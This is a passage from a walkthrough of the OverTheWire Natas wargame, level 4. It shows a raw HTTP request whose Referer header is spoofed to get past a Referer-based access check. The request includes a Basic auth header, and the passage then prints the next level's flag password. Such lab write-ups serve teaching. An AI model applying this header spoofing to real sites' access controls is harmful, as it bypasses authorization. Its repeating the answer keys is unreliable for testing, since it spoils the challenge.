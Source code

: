 
Now I need to change the "Referer" part from :

```
Referer: http://natas4.natas.labs.overthewire.org/index.php
```

to

```
Referer: http://natas5.natas.labs.overthewire.org/index.php
```

Here is the full request after changing:

```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM0OnRLT2NKSWJ6TTRsVHM4aGJDbXpuNVpyNDQzNGZHWlFt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas5.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

Then, we can get the flag. So, the flag is:

![Flag for Natas 4](images/Answer-4.png)

So, the flag from the above screenshot is:

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

## Natas 5

The details to login the natas 5 are:
